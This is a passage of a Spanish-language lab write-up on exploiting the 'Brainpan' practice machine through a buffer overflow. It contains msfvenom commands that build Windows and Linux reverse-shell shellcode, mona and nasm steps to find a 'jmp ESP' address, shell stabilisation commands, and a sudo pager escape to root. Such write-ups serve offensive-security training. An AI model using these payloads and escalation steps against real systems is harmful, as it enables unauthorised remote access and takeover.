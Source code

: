		-  Vamos a generar el ShellCode con "msfvenom" para injectar el comando y recibir una RevShell, la shell se mandará a Matrix.
```python
		$> msfvenom -p windows/shell_reverse_tcp LHOST=10.15.12.130 LPORT=3000 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread # ShellCode para la revshell
```
	7. Con el "OffSec" y el "ShellCode" ya solo nos queda buscar el registro el "jmp ESP" para completar el script y lanzarlo contra "Brainpan". 
```python
		$> /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
			$> jmp ESP
```
	8. Con Mona buscamos este "opcode" en el binario de brainpan.exe y veremos el valor del "jmp ESP".
		1. `!mona modules` -> Vemos si existen protecciones en el binario.
		2. `!mona find -s "\xFF\xE4" -m brainpan.exe` -> busca dirección del registro del jmp ESP.
	9. Necesitamos  dejar un espacio entre el EIP y el ShellCode, este espacio porque puede ser que el ShellCode empieze a ejecutarse y puede ser que no se interpreten los primeros bytes .Incluimos b"\\x90"*16". 
	10. Esta máquina parece que tiene una aplicación montada como Windows en algún entorno como "Wine" o algo pareceido pero realmente es un "Linux". Cuando accedemos con la RevShell, estamos en un disco lógico Z:.
	11. Vamos a preparar otro shellcode para linux y lanzar otra vez el script.py. Command: _`msfvenom -p linux/x86/shell_reverse_tcp LHOST=[NAGINI] LPORT=1346 -f py -b "\x00" EXITFUNC=thread`_  . Ganamos acceso como "Puck"

##### <font color="#0070c0">Puck</font>
- Hacemos un tratamiento de la tty.
```python
$> script /dev/null -c bash # Brainpan
	$> stty raw -echo; fg # kali
	$> reset xterm # kali
	$> export TERM=xterm # Brainpan
	$> export SHELL=bash # Brainpan
```
- Ejecutamos "sudo -l" y podemos lanzar un binario como sudo que permite algunas opciones, podemos leer un manual de alguna herramienta. 
```python
$> sudo /home/anansi/bin/anansi_util manual whoami
$> !/bin/bash # Dentro del modo paginate.
```
<figure style="text-align: center;">
  <img src="/assets/img/commons/eCPPTv2/RootBrainpan.png" alt="VMnet_lab">
  <figcaption style="font-style: italic; font-size: smaller;">Escalation Root</figcaption>
</figure>
- **PWNED!**
- **Script Python**
